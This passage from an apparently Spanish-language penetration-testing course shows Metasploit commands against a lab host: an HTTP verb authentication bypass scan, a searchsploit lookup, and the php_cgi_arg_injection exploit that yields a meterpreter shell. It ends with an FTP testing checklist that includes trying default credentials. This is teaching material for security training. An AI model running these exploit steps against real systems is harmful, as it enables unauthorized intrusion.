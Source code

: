 *set RHOST 192.168.1.49*

*> run*

![Run RHOST](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/run-rhost.png?raw=true)

Una vez más, estos resultados podrían marcar la diferencia y deberíamos echarles un vistazo. Otro módulo de interés id 'options', 'robots_txt' y 'verb_auth_bypass':

*> use auxiliary/scanner/http/verb_auth_bypass*

*> show options*

*set RHOST 192.168.1.49*

*> run*

![Run proxies](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/run-proxies.png?raw=true)

> Y muchos módulos más que te invito a probar.
> 
> 
> Hagamos uso de la información que recopilamos.
> 
> Busquemos en exploitDB Apache con la versión de PHP:
> 
> *$ searchsploit apache | grep 5.4.2*
> 

![Apache1](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/apache1.png?raw=true)
Se encontró ejecución remota de código CGI. Explotémoslo:

*> use exploit/multi/http/php_cgi_arg_injection*

*set RHOST 192.168.1.49*

*>run*

![Run Exploit](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/run-exploit.png?raw=true)

¡¡Tenemos un shell meterpreter!! ¡¡¡Happy hacking!!!

El puerto 80 es una buena fuente de información y aprovecha como cualquier otro puerto. Volveremos a este puerto para las aplicaciones web instaladas. En este artículo obtuvimos información sobre los servicios en ejecución y encontramos un exploit que nos proporcionó un shell.

## **FTP (Protocolo de Transferencia de Archivos):**

- **Escaneo de Puertos:** Utilizar herramientas como Nmap para identificar servicios activos, incluyendo FTP en el puerto 21.
- **Enumeración de Usuarios Anónimos:** Verificar si el servidor FTP permite conexiones anónimas y si ofrece acceso a información sensible.
- **Intentos de Acceso No Autorizado:** Intentar acceder al servidor FTP con credenciales débiles o por defecto para evaluar la seguridad de autenticación.
- **Escaneo de Directorios:** Utilizar herramientas como Nmap o dirb para escanear directorios en el servidor FTP.
- **Transferencia de Archivos:** Subir y descargar archivos para evaluar la integridad del control de acceso y la seguridad del sistema.
- **Explotación de Vulnerabilidades Conocidas:** Si se encuentran vulnerabilidades conocidas en el servidor FTP, utilizar exploits apropiados para verificar la explotación controlada.
